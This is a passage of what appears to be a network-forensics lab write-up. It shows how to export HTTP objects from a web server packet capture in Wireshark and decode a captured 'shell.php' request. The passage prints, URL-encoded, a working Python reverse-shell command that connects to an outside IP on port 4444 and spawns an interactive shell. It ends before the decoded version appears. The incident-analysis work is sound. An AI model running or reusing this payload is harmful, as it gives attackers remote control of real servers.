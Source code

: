 




































| 4.0 |
|----------|
| Another method to view malware delivered but does not yield uploaded files compared to 3.2 method above |
|  |
| In Wireshark
Phl_webserver.pcap


Steps taken: 1. In Wireshark>File>Export Object>HTTP
                     2. Inspect contents(Content type: application/x-www-form-urlencoded)>
                     Save as shell.php |
| 
cmd=python+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22138.68.92.163%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3B+os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27 |
| Go TO
URL Decoder/encoder.io
PASTE the URL encoded shell.php

 |
| When we open shell.php, we find it as URL encoded
Use URL Decoder to analyze encoded malicious script>PASTE the URL encoded shell.php
The malicious payload, when decoded, revealed a Python script designed to establish a reverse shell |
| Malicious decoded payload:
